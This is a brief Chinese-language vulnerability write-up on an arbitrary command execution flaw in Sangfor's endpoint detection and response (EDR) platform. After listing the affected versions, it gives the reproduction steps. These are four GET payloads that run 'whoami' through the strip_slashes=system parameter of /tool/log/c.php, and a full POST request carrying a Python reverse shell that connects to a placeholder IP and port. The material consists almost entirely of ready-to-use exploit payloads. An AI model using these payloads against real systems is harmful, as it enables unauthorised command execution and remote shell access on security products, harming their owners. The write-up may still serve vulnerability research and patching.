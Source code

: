 深信服 终端检测相应平台（EDR） 任意命令执行漏洞（一）


一、漏洞简介


二、漏洞影响


深信服EDR 3.2.16

深信服EDR 3.2.17

深信服EDR 3.2.19

三、复现过程


### payload：

    https://www.0-sec.org/tool/log/c.php?strip_slashes=system&limit=whoami

    https://www.0-sec.org/tool/log/c.php?strip_slashes=system&host=whoami

    https://www.0-sec.org/tool/log/c.php?strip_slashes=system&path=whoami

    https://www.0-sec.org/tool/log/c.php?strip_slashes=system&row=whoami

![1.png](resource/深信服终端检测相应平台(EDR)任意命令执行漏洞(一)/media/rId25.png)

### 反弹shell payload

    POST /tool/log/c.php HTTP/1.1
    Host: www.0-sec.org
    Connection: close
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.81 Safari/537.36 SE 2.X MetaSr 1.0
    DNT: 1
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Content-Type: application/x-www-form-urlencoded;charset=utf-8
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: PHPSESSID=b1464478cad68327229d8f46e60d0a08; _ga=GA1.4.112365795.1597799903; _gid=GA1.4.1225783590.1597799903
    Content-Length: 256

    strip_slashes=system&host=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
